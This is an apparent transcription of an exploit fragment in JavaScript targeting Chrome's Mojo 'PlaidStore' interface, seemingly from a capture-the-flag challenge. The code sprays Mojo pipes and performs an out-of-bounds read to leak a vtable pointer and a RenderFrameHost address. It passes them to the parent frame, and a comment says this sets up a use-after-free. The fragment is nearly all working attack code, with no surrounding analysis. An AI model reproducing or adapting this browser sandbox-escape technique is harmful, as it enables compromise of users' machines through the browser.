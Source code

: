 ```html
                    var times = 0x100;
                    var interfaces = [];
                    for(var i = 0; i < times; i++){
                        //Create a MessagePipe. Return two pipe handles.
                        var pipe = Mojo.createMessagePipe();    
                        //Bind the remote side of plaidstore       
                        var remote_side = new blink.mojom.PlaidStorePtr(pipe.handle0);
                        //Transfer the pipe handle1 and bind the receiver side of plaidstore
                        Mojo.bindInterface(blink.mojom.PlaidStore.name, pipe.handle1, "context", true);
                        //Create a OOB vector
                        var padding = new Array(0x28).fill(0).map((element, index) => {return index;});
                        remote_side.storeData("exp",padding);
                        interfaces[i] = remote_side;
                    }
                    for(var i = 0; i < times; i++){
                        if (typeof(interfaces[i]) === "undefined") console.log("[!] mojo connection creation fail.");
                    }
                    for(var i = 0; i <  times; i++){
                        //leak data
                        var leak_data = (await interfaces[i].getData("exp", 0x100)).data.slice(0x0, 0x100);

                        for(var j = 0; j < (leak_data.length / 8); j++){
                            var slice_8b = leak_data.slice(j * 8, (j + 1) * 8);
                            var slice_smi = byte2smi(slice_8b);
                            //the priority of "==" is higher than "&" 
                            //so this bracket is necessary
                            //use the lowest twelve bits and the highest four bits as the sentinel value
                            if(((slice_smi[0] & 0xfff) == 0x7a0) && ((slice_smi[1] >> 12) == 0x05))
                            {
                                var vtable_addr = slice_smi;
                                var RFH_addr = byte2smi(leak_data.slice((j + 1) * 8, (j + 2) * 8));
                                window.parent.postMessage([vtable_addr, RFH_addr], "*");
                                //return [vtable_addr, RFH_addr];
                                leak_success = true;
                                break;
                            }
                        }
                    }

                    if(leak_success == false) console.log("[!] fail to leak.");

                    return "child";

                }
                else{
                    //create a new frame to leak the addresses and then trigger the UAF
                    var child_src = document.location.href;
                    iframe = CreateRFH(child_src);
                    document.body.appendChild(iframe);

                    var get_address = new Promise((resolve) => {
                        window.addEventListener("message", event => {
                            var addr_array = event.data;
                            resolve(addr_array);
                        }, false);
                    });
                    return await get_address;
                }
```